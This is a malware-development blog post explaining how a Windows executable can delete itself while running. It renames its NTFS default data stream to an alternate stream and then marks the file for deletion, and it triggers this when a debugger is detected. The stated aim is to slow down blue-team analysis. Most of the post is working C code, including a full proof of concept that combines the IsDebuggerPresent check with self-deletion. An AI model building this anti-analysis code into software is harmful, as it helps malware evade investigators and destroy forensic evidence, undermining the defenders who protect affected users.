

# Self Deletion

## Introduction

The name should be **self** explanatory, but anyways, malware deleting itself. Now what if our malware is caught by the blue team?, we really want to slow down their efforts to analyze it as much as possible. Thus comes self deletion, when we feel like we are being "observed" aka debugged or analyzed, we can just delete ourselves. What we do here is abuse the NTFS `alternate data stream`. As you must have probably faced this problem, whenever you try deleting something that is being used by another process, you get the "Access Denied" error which at times could be quite annoying.

To view files with alternate data stream (also referred as `ADS` below), we can type the `dir /r` command in cmd.&#x20;

<figure><figcaption></figcaption></figure>

A more "stealthier" way to use the `ADS` to create files with reserved names like `CON` which is explained [here](https://isc.sans.edu/diary/31990).

## Explanation

The NTFS file system has an alternate data stream, which basically was created for compatibility purpose which you can look up. By default, every file system has a `:$DATA` file stream, although we can create `ADS` (alternate data stream) with any name we like. It is not possible to delete a file / process when it is being run, but there is a way to achieve what we want, and that is by renaming the file to some `ADS` and then deleting that `ADS`, which in turn deletes the main file, achieving our goal.

## Self Deletion

First we need to get the handle to our file using the `CreateFileW` and then we need to rename our file using the `SetFileInformationByHandle` function.

```c
// we have used GetModuleFileNameW to get the full path to our executable (szPath)
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[-] Creating ADS Failed : 0x%x\n", GetLastError());
		return FALSE;
	}

	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRen, sRen)) {
		printf("[-] Renaming to ADS Failed : 0x%x\n", GetLastError());
		return FALSE;
	}
```

We can see here that the alternate data stream file is created as soon as the `SetFileInformationByHandle` is called.

<figure><figcaption></figcaption></figure>

Now that we have set the ADS , we need to again get the handle to the file. Think of this as "refreshing" so that we have the handle to the file with updated details (this should allow us to delete it which wasn't possible earlier).

And we update the `File_DISPOSITION_INFO` structure and mark it as delete again using the `SetFileInformationByHandle` call, although this marks the file for deletion, the file isn't deleted until the handle isn't closed.

```c
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[-] CreateFileW Failed: 0x%x \n", GetLastError());
		return FALSE;
	}

	fileInfo.DeleteFile = TRUE;

	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &fileInfo, sizeof(fileInfo))) {
		printf("[-] SetFileInformationByHandle Failed : 0x%x \n", GetLastError());
		return FALSE;
	}
```

<figure><figcaption></figcaption></figure>

As soon as the rename succeeds, the actual file `kms.exe` has its size back to 0 because now the file has been renamed to an `ADS`.

After which all we have to do is to get the handle again, which allows us to mark the actual file for deletion and as soon as we close the handle to it, the file gets deleted.

## PoC

```c
#include <stdio.h>
#include <Windows.h>

#define STREAM L":DED"

BOOL kms() {
	WCHAR szPath[MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO fileInfo = { 0 };
	HANDLE hFile = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO pRen = NULL;
	CONST wchar_t* updateStream = (const wchar_t*)STREAM;
	SIZE_T lenStream = wcslen(updateStream) * sizeof(wchar_t);
	SIZE_T sRen = sizeof(FILE_RENAME_INFO) + lenStream;

	pRen = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRen);
	if (!pRen) {
		printf("[-] Heap Alloc Failed: 0x%x\n", GetLastError());
		return FALSE;
	}

	RtlSecureZeroMemory(szPath, sizeof(szPath));
	RtlSecureZeroMemory(&fileInfo, sizeof(FILE_DISPOSITION_INFO));

	pRen->FileNameLength = lenStream;
	RtlCopyMemory(pRen->FileName, updateStream, lenStream);

	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[-] GetModuleFileNameW Failed: 0x%x\n", GetLastError());
		return FALSE;
	}

	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[-] Creating ADS Failed : 0x%x\n", GetLastError());
		return FALSE;
	}

	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRen, sRen)) {
		printf("[-] Renaming to ADS Failed : 0x%x\n", GetLastError());
		return FALSE;
	}

	printf("[+] Renamed file to ADS\n");
	CloseHandle(hFile);

	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[-] CreateFileW Failed: 0x%x \n", GetLastError());
		return FALSE;
	}

	fileInfo.DeleteFile = TRUE;

	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &fileInfo, sizeof(fileInfo))) {
		printf("[-] SetFileInformationByHandle Failed : 0x%x \n", GetLastError());
		return FALSE;
	}
	
	printf("[+] KMS Success");
	
	CloseHandle(hFile);
	HeapFree(GetProcessHeap(), 0, pRen);

	return TRUE;
}

VOID mbox() {
	MessageBoxW(NULL, L"OOPS", L"OOPS", MB_ICONEXCLAMATION);
}

int main(int argc, char* argv[]) {
	BOOL beingdbg = IsDebuggerPresent();

	if (beingdbg) kms();
	else mbox();

	return 0;
}
```

## Conclusion

That's it for now, I'll update this same blog again later to showcase a similar technique to delete the file in windows 11 since this trick only works for windows 10 and below. If you think I made a mistake, you can reach out to me on twitter. Thanks.

## References

* [https://isc.sans.edu/diary/31990](https://isc.sans.edu/diary/31990)
* [https://maldevacademy.com/](https://maldevacademy.com/)
* [https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle)
